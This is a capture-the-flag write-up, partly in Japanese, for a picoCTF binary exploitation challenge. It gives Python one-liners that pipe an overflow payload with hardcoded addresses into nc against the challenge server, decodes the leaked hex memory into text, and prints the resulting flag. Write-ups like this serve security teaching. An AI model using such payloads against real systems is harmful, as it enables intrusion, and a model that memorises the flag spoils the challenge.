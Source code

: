 <br />

Python2

<pre>
captureamerica@kali:Pwn$ (python -c 'print("A"*14+"\xa0\x9d\x04\x08"+"\x20\x9e\x04\x08")'; cat -) | nc saturn.picoctf.net 51588
Give me a string that gets you the flag
AAAAAAAAAAAAAA� �
User information : 0x80c9a04 0x804007d 0x34663136 0x35313135 0x5f597230 0x6d334d5f
Names of user: 0x50755f4e 0x34656c43 0x7b465443
Age of user: 0x6f636970
</pre>

<br />

Python3

<pre>
captureamerica@ubuntu:Pwn$ (python -c 'import sys; sys.stdout.buffer.write(b"A"*14 + b"\xa0\x9d\x04\x08" + b"\x20\x9e\x04\x08" + b"\n")'; cat - ) | nc saturn.picoctf.net 58213
Give me a string that gets you the flag
AAAAAAAAAAAAAA� �
User information : 0x80c9a04 0x804007d 0x34663136 0x35313135 0x5f597230 0x6d334d5f
Names of user: 0x50755f4e 0x34656c43 0x7b465443
Age of user: 0x6f636970
</pre>


<br>

文字に変換すると、フラグが得られていることがわかります。

<pre>
7d	  : }
0x34663136: 4f16
0x35313135: 5115
0x5f597230: _Yr0
0x6d334d5f: m3M_
0x50755f4e: Pu_N
0x34656c43: 4elC
0x7b465443: {FTC
0x6f636970: ocip
</pre>

<br>

<pre>
$ echo "}4f165115_Yr0m3M_Pu_N4elC{FTCocip" | rev
picoCTF{Cle4N_uP_M3m0rY_511561f4}
</pre>

<br>

Flag: `picoCTF{Cle4N_uP_M3m0rY_511561f4}`




<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />

